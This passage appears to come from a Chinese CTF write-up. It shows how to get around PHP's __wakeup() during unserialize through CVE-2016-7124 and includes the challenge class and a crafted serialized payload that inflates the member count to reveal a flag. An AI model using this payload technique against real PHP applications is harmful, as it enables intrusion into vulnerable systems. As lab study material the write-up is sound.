   ```php
  ```

- 题解

  __wakeup() 函数在 unserialize 函数执行后会被调用。会强制讲变量赋值，需要绕过该函数。

  **CVE-2016-7124：当成员属性数目大于实际数目时可绕过wakeup方法**

  本地构建一个该类，生成序列化的对象，如下

  ```php
  <?php
  #$KEY1 = "D0g3!!!";
  #echo serialize($KEY1);
  
  class dagongren{
      public $a="work";
  
      function __destruct()
      {   
          if($this->a === 'work'){
              show_source("flag");
              echo "<br>";
          }
          else{
              echo "Good night";
          }
      }
  
      function __wakeup()
      {
          $this->a = "sleep";
      }
  
      function check()
      {
          if($this->a=="work"){
              return TRUE;
          }
          else{
              return FALSE;
          }
      }
  }
  $b = new dagongren();
  echo serialize($b);
  ?>
  
  ```

  
    ``` bash
  str1=s:7:"D0g3!!!";
  str2=O:9:"dagongren":1:{s:1:"a";s:4:"work";}
  # 组合一下，把类成员个数由1变为2
  str1=s:7:"D0g3!!!";&str2=O:9:"dagongren":2:{s:1:"a";s:4:"work";}
    ```
